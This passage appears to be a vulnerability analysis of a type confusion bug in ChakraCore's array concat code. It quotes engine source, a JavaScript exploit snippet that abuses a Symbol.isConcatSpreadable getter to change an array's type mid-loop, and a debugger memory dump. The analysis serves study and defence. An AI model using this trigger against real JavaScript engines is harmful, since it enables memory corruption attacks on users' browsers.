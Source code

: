 There's a for loop inside the `ConcatIntArgs()` functions:

```cpp
for (uint idxArg = 0; idxArg < args.Info.Count; idxArg++)
{
    Var aItem = args[idxArg];
    bool spreadableCheckedAndTrue = false;

    if (scriptContext->GetConfig()->IsES6IsConcatSpreadableEnabled())
    {
        spreadableCheckedAndTrue = JavascriptOperators::IsConcatSpreadable(aItem) != FALSE;

        if(!spreadableCheckedAndTrue)
```

Here the `args` stores the array that will be concatenated to `pDestArray`. For instance:

```javascript
var c = a.concat(b);
// here pDestArray = c
// args[0] = a
// args[1] = b
```

According to the comments of the exploit:

```javascript
// Here we define a custom getter for the Symbol.isConcatSpreadable property
// In it we change the type of qq by simply assigning an object to it
fakeProp = { get: function() {
    b[1] = obj;
    qq[0] = obj; // qq was JavascriptNativeIntArray, now changed to JavascriptArray
    return true;
}};

// set b's Symbol.isConcatSpreadable to fakeProp
Object.defineProperty(b, Symbol.isConcatSpreadable, fakeProp);
```

So when `aItem` = `b` and ran to line `JavascriptOperators::IsConcatSpreadable(aItem)`, it will change `pDestArray`'s data type from `JavascriptNativeIntArray` to `JavascriptArray`. It'll also change `b`'s data type into `JavascriptArray`, so later it can run to line `JavascriptNativeIntArray::ConvertToVarArray(pDestArray);`.

We can see that [JavascriptNativeIntArray::ConvertToVarArray](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L1832)'s first parameter is a `JavascriptNativeIntArray` data type. But here we pass a `JavascriptArray` data type variable instead, which leads to a **type confusion** vulnerability. 

When `ConvertToVarArray(pDestArray)` was called, the `pDestArray` has the following memory layout:

```
gef➤  tel 0x00007ffff03d8320
0x00007ffff03d8320│+0x00: 0x0000000300000000
0x00007ffff03d8328│+0x08: 0x0000000000000011
0x00007ffff03d8330│+0x10: 0x0000000000000000
0x00007ffff03d8338│+0x18: 0x00007ffff03d8140  <-- dest[0]
0x00007ffff03d8340│+0x20: 0x0001000000000001  <-- dest[1]
0x00007ffff03d8348│+0x28: 0x0001000000000002  <-- dest[2]
0x00007ffff03d8350│+0x30: 0x8000000280000002
0x00007ffff03d8358│+0x38: 0x8000000280000002
0x00007ffff03d8360│+0x40: 0x8000000280000002
0x00007ffff03d8368│+0x48: 0x8000000280000002
```
